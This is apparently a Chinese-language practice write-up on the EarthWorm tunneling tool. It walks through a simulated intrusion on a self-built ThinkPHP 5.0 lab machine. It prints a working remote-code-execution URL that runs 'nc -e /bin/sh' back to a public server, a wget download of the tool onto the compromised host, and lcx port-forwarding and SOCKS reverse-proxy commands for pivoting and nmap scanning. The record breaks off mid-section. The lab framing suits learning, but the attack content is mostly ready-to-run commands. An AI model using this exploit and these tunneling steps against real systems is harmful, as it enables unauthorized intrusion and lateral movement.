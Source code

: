 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口(公网向外转发的端口)
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口(公网接收端口)
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
`./ew_for_Linux32 -s lcx_listen -l 443 -e 2222`


> 中间遇到的小插曲：不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口ew就不行，一切连接都显示正常，就是不回包，最后仔细检查一遍之后发现公网上的接收端口写反了，居然没有报错！！！

## 测试socks代理

### 打开正向socks V5代理(好像多了一种用工作室的网的方式)
`./ew_for_linux -s ssocksd -l 1080`
**附上终端设置socks代理的配置**
```
# 安装proxychains  kali自带 
cd /usr/local/src
git clone https://github.com/rofl0r/proxychains-ng.git
cd proxychains-ng 
./configure --prefix=/usr --sysconfdir=/etc
make && make install
make install-config
cd .. && rm -rf proxychains-ng
# 配置 
vi /etc/proxychains.conf
socks5  120.xx.xx.xx 1080
# 使用 命令前面加上proxychains
proxychains nmap 10.203.87.61
```

### 反向代理
- 现在公网服务器上
	`./ew_for_Linux32 -s rcsocks -l 1081 -e 8889`
> 1081就是攻击机要连接的端口，8889就是肉鸡连上来的端口 

- 肉鸡上执行
	``